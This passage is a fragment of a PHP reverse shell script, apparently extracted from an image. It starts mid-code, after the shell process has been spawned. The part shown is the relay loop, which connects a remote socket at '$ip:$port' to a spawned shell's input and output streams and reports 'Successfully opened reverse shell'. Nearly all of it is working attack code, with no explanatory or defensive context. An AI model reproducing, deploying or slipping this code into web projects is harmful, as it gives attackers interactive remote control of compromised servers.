 ```php
	printit("ERROR: Can't spawn shell");
	exit(1);
}
stream_set_blocking($pipes[0], 0);
stream_set_blocking($pipes[1], 0);
stream_set_blocking($pipes[2], 0);
stream_set_blocking($sock, 0);
printit("Successfully opened reverse shell to $ip:$port");
while (1) {
	if (feof($sock)) {
		printit("ERROR: Shell connection terminated");
		break;
	}
	if (feof($pipes[1])) {
		printit("ERROR: Shell process terminated");
		break;
	}
	$read_a = array($sock, $pipes[1], $pipes[2]);
	$num_changed_sockets = stream_select($read_a, $write_a, $error_a, null);
	if (in_array($sock, $read_a)) {
		if ($debug) printit("SOCK READ");
		$input = fread($sock, $chunk_size);
		if ($debug) printit("SOCK: $input");
		fwrite($pipes[0], $input);
	}
	if (in_array($pipes[1], $read_a)) {
		if ($debug) printit("STDOUT READ");
		$input = fread($pipes[1], $chunk_size);
		if ($debug) printit("STDOUT: $input");
		fwrite($sock, $input);
	}
	if (in_array($pipes[2], $read_a)) {
		if ($debug) printit("STDERR READ");
		$input = fread($pipes[2], $chunk_size);
		if ($debug) printit("STDERR: $input");
		fwrite($sock, $input);
	}
}
fclose($sock);
fclose($pipes[0]);
fclose($pipes[1]);
fclose($pipes[2]);
proc_close($process);
function printit ($string) {
	if (!$daemon) {
		print "$string\n";
	}
}
?>
```
